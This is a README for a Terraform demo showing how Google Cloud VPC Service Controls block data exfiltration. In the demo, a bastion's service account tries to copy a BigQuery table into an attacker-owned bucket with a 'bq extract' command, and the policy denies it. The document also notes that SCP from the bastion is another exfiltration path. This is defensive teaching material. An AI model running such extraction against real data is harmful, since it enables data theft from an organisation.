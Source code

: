 # VPC Service Controls Demo

## Dependencies

* `gcloud/bq`
* Org Admin Role

## Overview

![](assets/arch.png)

This terraform code will create:

* 2 projects: source and target/attacker
* Bastion in a private subnet with Private Google Access enabled
* Firewall rule allowing SSH via IAP into the Bastion
* BigQuery Dataset/Table which is loaded with test data
* Target Bucket for the exfil attempt
* All necessary IAM bindings
* Org policy forbidding external IPs on Instances
* VPC Service Control perimeter around BigQuery and GCS in the source project

## Permissions

Since this example touches Org-level configuration, you should have pretty high permissions in your org to be able to use it. At minimum, you'll need:

### Org level
* roles/accesscontextmanager.policyAdmin
* roles/resourcemanager.organizationViewer
* roles/resourcemanager.projectCreator
* roles/billing.user

### Folder level

These are the roles necessary for the projects that will be created.

* roles/compute.networkAdmin
* roles/compute.xpnAdmin
* roles/iam.serviceAccountAdmin
* roles/resourcemanager.projectIamAdmin
* roles/bigquery.admin
* roles/storage.admin


## Deployment

```
cp terraform.tfvars.sample terraform.tfvars
```

Then update that file with your own values. With all the arguments set in the `terraform.tfvars` file, simply run

```
terraform apply
```

<!-- BEGINNING OF PRE-COMMIT-TERRAFORM DOCS HOOK -->
## Inputs

| Name | Description | Type | Default | Required |
|------|-------------|------|---------|:--------:|
| billing\_account | Billing Account id. e.g. AAAAAA-BBBBBB-CCCCCC | `string` | n/a | yes |
| enabled\_apis | List of APIs to enable on the created projects | `list` | <pre>[<br>  "iap.googleapis.com",<br>  "oslogin.googleapis.com",<br>  "compute.googleapis.com",<br>  "bigquery.googleapis.com",<br>  "storage-api.googleapis.com"<br>]</pre> | no |
| folder\_id | Folder ID within the Organization: e.g. 1234567898765 | `string` | `""` | no |
| members | List of members in the standard GCP form: user:{email}, serviceAccount:{email}, group:{email} | `list` | `[]` | no |
| org\_id | Organization ID. e.g. 1234567898765 | `string` | n/a | yes |
| perimeter\_name | Name of the VPC SC perimeter | `string` | `"protect_the_daters"` | no |
| region | Region where the bastion host will run | `string` | `"us-west1"` | no |
| terraform\_service\_account | The Terraform service account email that should still be allowed in the perimeter to create buckets, datasets, etc. | `string` | n/a | yes |
| zone | Zone where the bastion host will run | `string` | `"us-west1-a"` | no |

## Outputs

| Name | Description |
|------|-------------|
| source\_project | n/a |
| target\_bucket | n/a |

<!-- END OF PRE-COMMIT-TERRAFORM DOCS HOOK -->

## Demo


First you'll want to get the bucket name from either the state output or looking it up in the console:

```
terraform output target_bucket
```

Next log into the Bastion instance using `gcloud`. Notice how it will say something about tunnelling through IAP?
That's because the instance doesn't have a public IP!

```
gcloud config set project $(terraform output source_project)
gcloud compute ssh bastion-vm
```

Once you're on the instance, you'll notice that you're logged in as the service account with a user like `sa_1234567890@bastion-vm` which tells you that OS Login was used.

Go ahead and take a look at your config, which should show you which service account you are using. You should be able to successfully run the following command and get some BigQuery data:

```
bq head project_1_dataset.cars
```


Now lets be a bit evil! We're going to attempt to exfil the data from this host to another GCP account that we own.
Since we own it, we can grant the Service Account for the bastion Owner permissions on the target account. This was already
done for you in the Terraform in `storage.tf`. Since we are Owner of the target account, without VPC SC, we could extract the
entire table into a GCS bucket that we own, but with VPC SC protecting our BigQuery, that won't work. Let's try it anyway!
Using the bucket name you printed earlier (we'll call it `BUCKET_URL`), let's try to extract the cars table to the target bucket.
You should get an output that looks something like this:

```
bq extract project_1_dataset.cars BUCKET_URL/cars.csv
BigQuery error in extract operation: VPC Service Controls: Request is prohibited by organization's policy.
```

Success!! Data exfil prevented! But what about PasteBin? Or AWS S3? Or any number of services??

If you look at the subnet we put our Bastion in, you'll notice the line:

```
private_ip_google_access = true
```

You also may notice that we didn't give this thing a NAT. This means we limited the scope of egress traffic to ONLY Google APIs,
which subsequently means that you can't make outbound requests to these type of storage services over the internet. Now does this
mean you are completely safe from exfil? Absolutely not! As long as the user's machine has access to the bastion she can SCP data
from that host. There are other controls you can add as well but VPC SC mitigates a very common threat of data exfil.
